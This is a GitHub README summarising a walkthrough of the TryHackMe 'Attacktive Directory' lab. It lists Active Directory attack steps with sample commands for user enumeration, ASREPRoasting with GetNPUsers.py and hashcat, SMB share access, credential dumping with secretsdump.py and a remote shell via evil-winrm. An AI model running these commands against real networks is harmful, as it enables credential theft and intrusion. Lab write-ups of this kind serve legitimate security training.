 # Attacktive Directory Lab

Welcome to the **Attacktive Directory Lab** repository! This repo contains a detailed walkthrough of the "Attacktive Directory" TryHackMe room, showcasing key techniques in Active Directory security and exploitation.

## Overview
Active Directory is a cornerstone of enterprise network management, and understanding its security is critical for any cybersecurity professional. This lab explores:
- Enumeration of Active Directory using tools like Nmap and enum4linux
- Kerberos abuse techniques, including ASREPRoasting
- SMB enumeration and exploitation
- Privilege escalation to extract sensitive data from a Domain Controller

## Key Topics Covered
1. **Enumeration:**
   - Nmap and enum4linux usage to identify services and gather domain details.

2. **Kerberos Abuse:**
   - Techniques for enumerating users and exploiting Kerberos pre-authentication vulnerabilities.

3. **SMB Exploitation:**
   - Accessing and interacting with SMB shares using `smbclient`.

4. **Privilege Escalation:**
   - Using Impacket tools like `secretsdump.py` for credential extraction.

5. **Flag Submission:**
   - Establishing remote access with `evil-winrm` to retrieve flags.

## Tools and Commands Used
- **Nmap:**
  nmap -sV -sC <target_ip>

- **enum4linux:**
  enum4linux <target_ip>

- **Kerbrute:**
  ./kerbrute -h

- **GetNPUsers.py:**
  python GetNPUsers.py -no-pass -usersfile ./users.txt -dc-ip <target_ip> spooky.local/

- **Hashcat:**
  hashcat -m 18200 hash.txt passwordlist.txt

- **SMBClient:**
  smbclient -L <target_ip> -U svc-admin
  smbclient \\\\<target_ip>\\backup -U svc-admin

- **Impacket's secretsdump.py:**
  secretsdump.py <user>:<password>@<target_ip>

- **evil-winrm:**
  evil-winrm -i <target_ip> -u <user> -p <password>

## Conclusion
This lab provides hands-on experience in understanding and exploiting Active Directory environments. By learning these techniques, you will enhance your skills in penetration testing and defensive security practices.

## Resources
- [My TryHackMe Profile](https://tryhackme.com/p/Daniel.Mwendwa)
- [Attacktive Directory Room](https://tryhackme.com/room/attacktivedirectory)

Happy hacking! 
